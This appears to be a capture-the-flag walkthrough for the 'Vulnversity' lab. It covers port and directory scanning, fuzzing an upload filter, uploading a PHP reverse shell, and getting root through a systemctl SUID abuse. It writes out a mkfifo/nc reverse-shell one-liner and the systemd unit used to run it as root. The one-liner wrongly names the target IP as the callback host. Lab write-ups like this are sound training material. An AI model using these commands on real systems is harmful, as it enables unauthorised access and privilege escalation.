




Vulnversity
===========

Vulnversity is a nice straightforward CTF that emulates basic know-how of getting access to a system and then escalating your priviledge. Quite enjoyable to say the least, just needs you to understand some underlying code.

Lets start with an nmap scan of the target IP, which will look something like this:

```vim
nmap -sV -Pn -v <TARGET_IP>
```



We see that we have 6 ports open, where `http-proxy` and `http` seem interesting. Open the target IP on your browser like this: `<TARGET_IP>:3333`

Next, we can work on a gobuster scan on this webpage, which a command that looks something like this:

```vim
gobuster dir -u http://<TARGET_IP>:3333/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```
(Note: You can make this faster by using the `-t` option. Personally, I use `-t 40` but you can go beyond if your PC can take it)

We see that we get the following hits:
```
/images
/index.html
/css
/js
/fonts
/internal
```
Other than the last one, everything else seems pretty standard. Lets check out `/internal` first:


Upload forms generally are an attack vector that we can use to use the Unrestricted File Upload exploit (As stated by OWASP)

When you try to upload a file, you will be an "Extension not allowed" error. This means that we have to fuzz this upload form to see which extension can be uploaded. A wordlist you can use for this can be found here: https://github.com/xmendez/wfuzz/blob/master/wordlist/general/extensions_common.txt

A good way to fuzz upload forms, is through BurpSuite, we can capture the upload form packet and use its Intruder mode to bruteforce which extension works. Firstly, Start BurpSuite, make a simple `.txt` file (mine is called `a.txt`) and upload it. Before clicking Submit, switch on Intercept in Proxy mode to capture the packet and then click Submit.

Your Proxy tab should look like this:



Right-click and send the packet to Intruder, and add your target to look something like this:



Use the wordlist I provided above as the payload and we can start the attack. (Make sure to disable URL encode in the options tab)

Once that is concluded, we can see in the below picture that only `.phtml` gets accepted:



.phtml is a file extension that we can use to write PHP code. We can make a reverse shell payload in PHP and try to execute it on the website. You can get a PHP payload from this website and use the .phtml extension on it: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php (Replace the IP and port in the above script and save it)

We have a reverse shell payload that we can upload to the website, so we can go ahead and upload it, start a listener with the following command:
```vim
nc -lvnp <PORT>
```
and execute the reverse shell file by going to this webpage: `http://<TARGET_IP>:3333/internal/uploads/FILE_YOU_UPLOADED`

On your listener, we can see that we have recieved a reverse shell. I like to use the following command to make my reverse shell a little more readable:
```vim
python -c 'import pty;pty.spawn("/bin/bash")'
```

On typing `ls`, we can see that we are in the `/` directory. From here on, we can explore the home directory, find the user `bill` and the user flag in: `/home/bill/user.txt`

Here on out, we need to escalate our priviledge, I tried `sudo -l` but it asks a sudo password and we don't have that, so I try the next best thing, SUID executables. We can find all the SUID files through the following command:
```vim
find . -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

I then used this website: https://gtfobins.github.io/ to see if I can find any existing SUID vulnerabilities. After looking through the whole list, you find that `systemctl` can be exploited if it has SUID root permission. You can read about it here: https://gtfobins.github.io/gtfobins/systemctl/#suid

```vim
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

The above code essentially means that we can execute the `id` command and the output will be displayed at `/tmp/output`. Once executed, you can see that the ID is of the root user. This tells us that if we can get a reverse shell from this command, it will be the root reverse shell. I looked for a couple reverse shells and found this one to work the best:

```vim
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f
```

This works best because it is small and doesn't need any quotation marks (They mess up the SUID exploit).

So, your SUID exploit will look like this:

```vim
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <TARGET_IP> PORT >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Start another listener on a different port using the `nc -lvnp PORT` command and execute the above exploit. When you check on your listener, you will be having a reverse shell. You can find the root flag in: `/root/root.txt`
